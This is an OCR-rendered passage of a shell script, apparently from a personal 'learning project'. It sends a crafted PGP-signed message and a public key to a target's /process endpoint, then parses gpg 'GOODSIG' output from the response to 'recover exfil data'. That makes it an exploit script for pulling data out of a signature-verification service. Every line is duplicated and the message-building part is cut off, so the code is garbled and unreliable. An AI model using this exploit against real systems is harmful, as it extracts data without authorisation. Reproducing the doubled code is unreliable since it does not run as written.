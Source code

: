 ```
    | awk '/.*BEGIN PGP SIGNED MESSAGE.*/,/.*END PGP SIGNATURE.*/'
    | awk '/.*BEGIN PGP SIGNED MESSAGE.*/,/.*END PGP SIGNATURE.*/'
)
)
log "MSG:\n ${MSG}"
log "MSG:\n ${MSG}"




# send it to target
# send it to target


result=$(curl -s -ik -X POST \
result=$(curl -s -ik -X POST \
    "https://${TARGET}/process" \
    "https://${TARGET}/process" \
    --data-urlencode "signed_text=${MSG}" \
    --data-urlencode "signed_text=${MSG}" \
    --data-urlencode "public_key=$(cat ${PUBKEY})"\
    --data-urlencode "public_key=$(cat ${PUBKEY})"\
)
)


log "result:\n${result}"
log "result:\n${result}"




# recover exfil data
# recover exfil data


regex_begin='^.*GOODSIG [[:upper:][:digit:]]{16} '
regex_begin='^.*GOODSIG [[:upper:][:digit:]]{16} '
regex_end='gpg: Good signature'
regex_end='gpg: Good signature'
awk "/${regex_begin}/ { f = 1 } /${regex_end}/ { f = 0 } f" <(echo -n "${result}") \
awk "/${regex_begin}/ { f = 1 } /${regex_end}/ { f = 0 } f" <(echo -n "${result}") \
    | sed -r "s/${regex_begin}//" \
    | sed -r "s/${regex_begin}//" \
    | sed 's/<.*>.*//'
    | sed 's/<.*>.*//'


```
```


>[!note]
>[!note]
>Since this script has dubious future utility, the `-u` flag is not strictly necessary.  Again, this was just a learning project. 
>Since this script has dubious future utility, the `-u` flag is not strictly necessary.  Again, this was just a learning project. 
